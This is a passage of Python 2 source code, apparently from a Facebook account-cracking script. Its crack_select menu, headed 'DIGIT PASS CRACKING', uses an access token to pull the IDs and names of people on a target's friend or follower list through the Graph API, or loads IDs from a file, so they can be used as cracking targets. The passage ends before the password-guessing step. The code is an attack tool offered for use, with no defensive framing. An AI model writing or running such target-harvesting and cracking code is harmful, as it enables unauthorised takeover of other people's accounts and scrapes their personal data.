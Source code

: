 def crack_select():
	select = raw_input("\033[92;1m  CHOOSE : ")
	id=[]
	oks=[]
	cps=[]
	if select =="1":
		os.system("clear")
		logo()
		print("")
		print("\t\033[93;1m  DIGIT PASS CRACKING")
		print("")
		try:
			id_limit = int(raw_input("\033[93;1m  ENTER LIMIT (\033[91;1m5 MAX\033[93;1m): \033[92;1m"))
			print("")
		except:id_limit=1
		for t in range(id_limit):
			t +=1
			idt = raw_input("\033[93;1m  INPUT PUBLIC ID (\033[92;1m%s\033[93;1m) : \033[92;1m"%(t))
			try:
				for i in requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token).json()["data"]:
					uid = i["id"].encode('utf-8')
					na = i["name"].encode('utf-8')
					id.append(uid+"|"+na)
			except KeyError:
				print("\033[91;1m  PRIVATE FRIEND LIST TRY ANOTHER ONE")
			print("\033[94;1m  TOTAL IDS  : \033[0;92m%s\033[0;97m"%(len(id)))
		time.sleep(3)
	elif select =="2":
		os.system("clear")
		logo()
		print("")
		print("\t\033[93;1m  DIGIT PASS CRACKING")
		print("")
		try:
			id_limit = int(raw_input("\033[93;1m  ENTER LIMIT (\033[91;1m5 MAX\033[93;1m): \033[92;1m"))
			print("")
		except:id_limit=1
		for t in range(id_limit):
			t +=1
			idt = raw_input("\033[93;1m  INPUT FOLLOWER ID (\033[92;1m%s\033[93;1m) : \033[92;1m"%(t))
			try:
				for i in requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+token+"&limit=999999").json()["data"]:
					uid = i["id"].encode('utf-8')
					na = i["name"].encode('utf-8')
					id.append(uid+"|"+na)
			except KeyError:
				print("\033[91;1m  PRIVATE FRIEND LIST TRY ANOTHER ONE")
			print("\033[94;1m  TOTAL IDS  : \033[0;92m%s\033[0;97m"%(len(id)))
		time.sleep(3)
	elif select =="3":
		os.system("clear")
		logo()
		print("")
		print("\t\033[93;1m  DIGIT PASS CRACKING")
		print("")
                filelist = raw_input('\033[92;1m  INPUT FILE: ')
		try:
			for line in open(filelist, 'r').readlines():
				id.append(line.strip())
		except IOError:
			print("\t\033[91;1m  REQUESTED FILE NOT FOUND")
			print("")
